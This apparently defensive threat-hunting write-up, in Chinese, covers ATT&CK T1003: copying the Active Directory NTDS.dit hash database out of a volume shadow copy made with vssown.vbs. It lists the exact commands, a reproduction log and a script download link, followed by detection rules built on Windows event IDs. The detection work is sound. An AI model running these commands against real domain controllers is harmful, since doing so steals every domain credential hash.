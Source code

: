 # T1003-win-使用vssown.vbs获得NTDS.dit文件

## 来自ATT&CK的描述

凭证获取是从操作系统和软件中获取登录信息和密码的过程，通常为HASH散列或明文密码。然后使用凭证进行横向移动访问其他系统。

### NTDS.dit

Ntds.dit文件是存储Active Directory数据的数据库，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希值。域控制器（DC）上的ntds.dit文件只能由可以登录到DC的用户访问。很明显，保护这个文件至关重要，因为攻击者访问这个文件会导致整个域沦陷。

**默认情况下，NTDS文件将位于域控制器的％SystemRoot％\NTDS\Ntds.dit中。**但通常存储在其他逻辑驱动器上）。AD数据库是一个Jet数据库引擎，它使用可扩展存储引擎（ESE）提供数据存储和索引服务。通过ESE级别索引，可以快速定位对象属性。

## 测试案例

在2016+域控上使用 ntdsutil snapshot mount导出ntds.dit

### 创建快照

```dos
cscript vssown.vbs /start
cscript vssown.vbs /create c
cscript vssown.vbs /list
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy11\windows\ntds\ntds.dit C:\
cscript vssown.vbs /delete
```

## 检测日志

windows 安全日志

## 测试复现

```dos
C:\Users\Administrator\Desktop\test>cscript vssown.vbs /start
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

[*] Signal sent to start the VSS service.

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /create c
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

[*] Attempting to create a shadow copy.

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /list
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

SHADOW COPIES
=============

[*] ID:                  {42C8E0BD-6FD9-4CFB-B006-4640DAE84DC8}
[*] Client accessible:   True
[*] Count:               1
[*] Device object:       \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
[*] Differential:        True
[*] Exposed locally:     False
[*] Exposed name:
[*] Exposed remotely:    False
[*] Hardware assisted:   False
[*] Imported:            False
[*] No auto release:     True
[*] Not surfaced:        False
[*] No writers:          True
[*] Originating machine: ICBC.abcc.org
[*] Persistent:          True
[*] Plex:                False
[*] Provider ID:         {B5946137-7B9F-4925-AF80-51ABD60B20D5}
[*] Service machine:     ICBC.abcc.org
[*] Set ID:              {584C48BF-649D-4B35-9CAE-3165C2C8BE53}
[*] State:               12
[*] Transportable:       False
[*] Volume name:         \\?\Volume{16da2094-7213-420f-a023-db7b3e3a7f6f}\


C:\Users\Administrator\Desktop\test>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit C:\
已复制         1 个文件。

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /delete
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。
```

## 测试留痕

测试留痕日志下载地址：<https://github.com/12306Bro/Threathunting-book/blob/master/Eventdata/vssown.evtx>

## 检测规则/思路

```yml
title: 使用vssown.vbs拿到NTDS.dit文件
description: windows server 2016+ AD域控
tags: T1003
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4688 #已创建新的进程。
        New processname: C:\Windows\System32\cscript.exe
        Process commandline:
           - cscript  *.vbs /start #基于命令行检测
           - cscript  *.vbs /create c #基于命令行检测
           - cscript  *.vbs /delete #基于命令行检测
           - cscript  *.vbs /list #基于命令行检测
    condition: selection
---
detection:
    selection1:
        EventID: 4904 #已试图注册安全事件源。
        Processname: C:\Windows\System32\VSSVC.exe
        Source name: VSSAudit #事件源
    selection2:
        EventID: 8222 #已创建影子副本。
        Process image name: C:\Windows\System32\wbem\WmiPrvSE.exe
        Raw volume: \\?\Volume{*}\ #"*"代表正则匹配
        Shadow device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy* #"*"代表正则匹配
    selection3:
        EventID: 4905 #已试图取消注册安全事件源。
        Processname: C:\Windows\System32\VSSVC.exe
        Source name: VSSAudit #事件源
    ​timeframe: last 10S #自定义时间范围
    condition: all of them
level: medium
```

注意：此检测仅适用于windows AD域控主机。

## 参考推荐

MITRE-ATT&CK-T1003：<https://attack.mitre.org/techniques/T1003/>

vssown.vbs下载地址：<https://raw.githubusercontent.com/borigue/ptscripts/master/windows/vssown.vbs>

域渗透——获得域控服务器的NTDS.dit文件：<https://xz.aliyun.com/t/2187>

MITRE ATT&CK 攻击知识库（企业）中文版：<https://hansight.github.io/#/>
